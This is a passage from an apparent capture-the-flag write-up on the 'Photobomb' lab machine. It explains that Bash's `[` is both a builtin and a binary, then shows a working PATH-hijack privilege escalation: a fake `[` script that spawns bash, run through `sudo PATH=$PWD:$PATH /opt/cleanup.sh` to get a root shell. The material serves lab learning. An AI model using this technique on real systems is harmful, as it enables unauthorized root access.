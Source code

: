 #### Intended Path

I’m not sure where the `find` without the full path got added in, but the original submission required a bit more knowledge of Bash, and the builtin `[`. One of the mistakes I would also make when trying to use the syntax `[ -s /some/file ]` would be not including a space after the `[`. When you think of `[` in the same category as `{` or `(` in a programming language, then the space doesn’t make sense. But in Bash, `[` is actually the same as `test`, and a program on the filesystem ([this article](https://www.educative.io/courses/master-the-bash-shell/392YWp2pOv4) shows more detail).

This is clean on Photobomb:

```

wizard@photobomb:/dev/shm$ which [
/usr/bin/[
wizard@photobomb:/dev/shm$ file /usr/bin/[ 
/usr/bin/[: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=99cfd563b4850f124ca01f64a15ec24fd8277732, for GNU/Linux 3.2.0, stripped

```

In a typical shell, the binary isn’t called, as it’s a [Bash builtin](https://manpages.ubuntu.com/manpages/bionic/man7/bash-builtins.7.html). So even with no `$PATH`, it can still be called (like `echo`):

```

wizard@photobomb:/dev/shm$ export PATH=''
wizard@photobomb:/opt$ [ -s cleanup.sh ] && echo "exists"
exists

```

But, `enable -n [` disables it (see the [bash man page](https://linux.die.net/man/1/bash)). That means that I can do the same trick above, but with `[`:

```

wizard@photobomb:/dev/shm$ rm find
wizard@photobomb:/dev/shm$ echo -e '#!/bin/bash\n\nbash' > [
wizard@photobomb:/dev/shm$ chmod +x [
wizard@photobomb:/dev/shm$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:/dev/shm#

```